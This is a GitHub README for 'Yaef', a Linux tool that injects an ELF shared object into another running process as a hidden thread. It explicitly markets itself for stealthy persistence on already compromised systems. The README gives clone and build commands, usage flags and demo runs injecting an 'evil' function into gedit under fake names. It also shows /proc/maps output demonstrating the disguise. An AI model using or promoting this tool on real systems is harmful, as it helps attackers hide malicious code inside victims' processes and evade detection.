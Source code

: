 # Yaef - Yet Another ELF-Injector
Yaef injects an ELF x86_64 shared object into a remote process, and makes 
it run as an independent thread. If specified, it can be used a fake name,
thus deceiving /proc/maps.

Overall, It's a pretty stealthy and complete solution to gain persistence in a
already compromised system. 

### How does it work
 1. Attach & stop all running threads ([Ptrace](https://www.kernel.org/doc/Documentation/security/Yama.txt))
 2. Create a memory file based on the binary ([memfd_create](http://man7.org/linux/man-pages/man2/memfd_create.2.html))
 3. Hijack remote **__libc_dlopen_mode()** function and load the memfd file.
 4. Hijack remote **pthread_create()** function and call our malicious one.

## Installing
``` 
git clone https://github.com/0xN3utr0n/Yaef.git
cd Yaef
make 
```

## Usage
```
Usage: ./Yaef <option> <value>...

	-p	Target process id
	-b	Elf binary path
	-f	Elf binary function's name
	-n	File fake name (optional)
```
## Demo

**shell1>** ./Yaef -p $(pidof gedit) -f main -b ./dummy -n fakename1
```	
	#### YAEF ####

[*]0x7f32b8e88450 <- __libc_dlopen_mode()
[*]0x000000000630 <- main() offset
[*]Valid ELF binary
[*]Thread 2365 stopped
[*]Thread 2366 stopped
[*]Thread 2367 stopped
[*]Thread 2368 stopped
[*]Thread 2370 stopped
[*]Attached!
[*]0x7f32a8002000 <- String Injected!
[*]0x7f3299e22000 <- 'fakename1' Injected!
[*]0x7f32b5eb49b0 <- pthread_create()
```
**shell2>** gedit
```
//few seconds later...

Main function

Main function

Main function

Main function

Main function

Main function
```
And if we were to inject more binaries? </br>
**shell1>** ./Yaef -p $(pidof gedit) -f evil -b ./dummy -n fakename2
```
	#### YAEF ####

[*]0x7f32b8e88450 <- __libc_dlopen_mode()
[*]0x000000000780 <- evil() offset
[*]Valid ELF binary
[*]Thread 2365 stopped
[*]Thread 2366 stopped
[*]Thread 2367 stopped
[*]Thread 2368 stopped
[*]Thread 2375 stopped
[*]Attached!
[*]0x7f32a8000000 <- String Injected!
[*]0x7f3298ca0000 <- 'fakename2' Injected!
[*]0x7f32b5eb49b0 <- pthread_create()
```
**shell2>** gedit
```
Main function

Main function
...
...
//few seconds later...
Evil function !!!

Main function

Evil function !!!

Evil function !!!

Main function
```
**shell3>** cat /proc/$(pidof gedit)/maps 
```
555e8fb70000-555e8fb72000 r-xp 00000000 fc:01 1704296                    /usr/bin/gedit
555e8fd71000-555e8fd72000 r--p 00001000 fc:01 1704296                    /usr/bin/gedit
555e8fd72000-555e8fd73000 rw-p 00002000 fc:01 1704296                    /usr/bin/gedit
555e90326000-555e9104c000 rw-p 00000000 00:00 0                          [heap]
...
...
7f3298ca0000-7f3298ca1000 r-xp 00000000 00:05 65193                      /memfd:fakename2 (deleted) 
7f3298ca1000-7f3298ea0000 ---p 00001000 00:05 65193                      /memfd:fakename2 (deleted)
7f3298ea0000-7f3298ea1000 r--p 00000000 00:05 65193                      /memfd:fakename2 (deleted)
7f3298ea1000-7f3298ea2000 rw-p 00001000 00:05 65193                      /memfd:fakename2 (deleted)
...
...
...
7f3299e22000-7f3299e23000 r-xp 00000000 00:05 62901                      /memfd:fakename1 (deleted)
7f3299e23000-7f329a022000 ---p 00001000 00:05 62901                      /memfd:fakename1 (deleted)
7f329a022000-7f329a023000 r--p 00000000 00:05 62901                      /memfd:fakename1 (deleted)
7f329a023000-7f329a024000 rw-p 00001000 00:05 62901                      /memfd:fakename1 (deleted)
```

